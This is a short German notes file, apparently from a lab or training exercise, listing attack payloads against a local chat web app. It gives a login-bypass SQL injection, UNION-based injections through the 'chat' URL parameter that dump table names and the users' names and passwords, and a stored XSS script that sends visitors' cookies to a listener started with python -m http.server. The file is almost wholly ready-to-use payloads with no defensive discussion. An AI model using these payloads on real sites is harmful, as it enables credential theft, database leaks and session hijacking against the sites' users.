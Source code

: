 # SQL Injection

## SQL Injection für login ohne passwort
`' or '1' = '1`

## SQL Injections im get parameter 'chat' 
http://localhost:5000/?chat=

### Leaken der Datenbanktabellen:
`0) union select 1,1,1,table_name from information_schema.tables;--`

### Leaken der passwörter:
`0) union select 1,1,1,CONCAT(username, " ", password) from chatusers;--`


# XSS
Http Server starten wo Cookie empfangen wird:
`python -m http.server`
XSS in den Status eines Users kopiern:
`<script>document.write(\'<img src=\\\'http://localhost:8000?n=\'+document.cookie+\'\\\'/>\')</script>`